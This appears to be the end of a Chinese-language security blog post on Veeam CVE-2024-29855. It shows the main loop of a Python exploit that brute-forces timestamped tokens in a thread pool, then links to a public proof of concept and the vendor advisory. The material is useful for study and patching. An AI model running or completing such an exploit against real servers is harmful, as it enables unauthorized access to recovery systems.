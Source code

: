 ```

    signal.signal(signal.SIGINT, signal_handler)

    with ThreadPoolExecutor() as executor:
        signal.signal(signal.SIGINT, lambda sig, frame: signal_handler(sig, frame))

        current_time = start_time
        while current_time < end_time:
            try:
                executor.submit(generate_token_and_exploit, current_time)
                current_time += 1
            except KeyboardInterrupt:
                print("Keyboard interrupt received, shutting down...")
                executor.shutdown(wait=False)
                sys.exit(0)
```  
  
  
参考  
  
https://github.com/sinsinology/CVE-2024-29855  
  
https://www.veeam.com/kb4585  
  
```
There Are No Secrets || Exploiting Veeam CVE-2024-29855
https://summoning.team/blog/veeam-recovery-orchestrator-auth-bypass-cve-2024-29855/
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
